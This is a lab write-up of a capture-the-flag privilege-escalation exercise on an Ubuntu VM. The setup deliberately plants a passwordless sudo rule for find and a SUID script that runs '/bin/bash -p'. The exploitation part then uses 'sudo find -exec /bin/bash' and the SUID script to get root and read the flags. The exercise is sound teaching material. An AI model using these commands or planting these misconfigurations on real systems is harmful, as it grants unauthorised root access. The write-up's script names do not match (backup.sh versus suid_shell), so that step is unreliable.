






# Phase 3: Privilege Escalation

Escalating from a low-privileged `employee` account to root via a sudo misconfiguration and an insecure SUID binary.

---

<!-- source: phase 3 done privilrge escalation.docx -->

2.2.3 Phase 3 – Privilege Escalation

Scenario Overview

In this phase, the attacker starts with access to a low-privileged local user account (employee) on the Ubuntu VM. The objective is to escalate privileges to the root user by exploiting sudo misconfiguration (medium challenge) and an insecure SUID binary (hard challenge).

Part A – Environment Setup (Ubuntu VM)

Creating a Low-Privilege User

A new low-privileged user named employee was created to simulate a standard internal employee account.

Command(s):

sudo useradd -m -s /bin/bash employee

sudo passwd employee

Evidence:

Creating the Medium Difficulty Flag

A flag file for the medium challenge was created inside the /root directory, ensuring it is only accessible with elevated privileges.

Command:

sudo nano /root/phase3_medium_flag.txt

Flag Content:

FLAG{PHASE3_SUDO_MISCONFIG_ROOT}

Evidence:

Securing the Medium Flag

Permissions on the medium flag file were restricted so that only the root user can read or modify it.

Command:

sudo chmod 600 /root/phase3_medium_flag.txt

Evidence:

Configuring the Sudo Misconfiguration

The sudoers file was edited to introduce a deliberate misconfiguration. The employee user was allowed to run the find binary with root privileges without a password.

Command:

sudo nano /etc/sudoers

Added Line:

employee ALL=(ALL) NOPASSWD: /usr/bin/find

Evidence:

Creating the SUID Backup Script

A script was created in /usr/local/bin that spawns a privileged shell. This script is intended for the hard challenge.

Command:

sudo nano /usr/local/bin/backup.sh

Script Content:

/bin/bash -p

Evidence:

Assigning SUID Permissions to the Script

The script was made executable and assigned the SUID bit, causing it to execute with root privileges regardless of the calling user.

Command(s):

sudo chmod +x /usr/local/bin/backup.sh

sudo chmod u+s /usr/local/bin/backup.sh

ls -l /usr/local/bin/backup.sh

Evidence:

Creating the Hard Difficulty Flag

A second flag was created for the hard challenge, also stored inside the root directory.

Command:

sudo nano /root/phase3_hard_flag.txt

Flag Content:

FLAG{PHASE3_SUID_BINARY_ESCALATION}

Evidence:

Securing the Hard Flag

The hard flag file was locked down so that only root can access it.

Command:

sudo chmod 600 /root/phase3_hard_flag.txt

Evidence:

Part B – Exploitation Phase (Attacker Perspective)

Switching to the Employee User

The attacker switched from the administrative user to the low-privileged employee account.

Command(s):

su - employee

whoami

Evidence:

Enumerating Sudo Privileges

The attacker enumerated available sudo permissions for the employee account.

Command:

sudo -l

Result:The output confirmed that employee can execute /usr/bin/find as root without a password.

Evidence:

Exploiting Sudo Find to Gain Root Shell

The find binary was abused to spawn a root shell using the -exec option.

Command(s):

sudo find . -exec /bin/bash \; -quit

whoami

Result:The attacker successfully escalated privileges to root.

Evidence:

Capturing the Medium Flag

With root access obtained, the medium difficulty flag was retrieved.

Command:

cat /root/phase3_medium_flag.txt

Output:

FLAG{PHASE3_SUDO_MISCONFIG_ROOT}

Evidence:

Enumerating SUID Binaries

The attacker searched the system for files with the SUID permission bit set.

Command:

find / -perm -4000 2>/dev/null

Evidence:

Identifying the Vulnerable SUID Script

The presence of /usr/local/bin/backup.sh in the SUID list confirmed a potential privilege escalation vector.

Evidence:

Exploiting the SUID Binary

The SUID script was executed directly, spawning a root shell.

Command(s):

/usr/local/bin/suid_shell

whoami

Result:The attacker obtained root privileges again via SUID exploitation.

Evidence:

Capturing the Hard Flag

With root access via the SUID binary, the hard challenge flag was retrieved.

Command:

cat /root/phase3_hard_flag.txt

Output:

FLAG{PHASE3_SUID_BINARY_ESCALATION}

Evidence:

Phase 3 Summary

Medium Challenge: Exploited a sudo misconfiguration allowing passwordless execution of find, resulting in full root compromise.

Hard Challenge: Abused a custom SUID binary executing /bin/bash -p to escalate privileges.

Both vulnerabilities demonstrate real-world privilege escalation risks caused by improper sudo rules and unsafe SUID binaries.
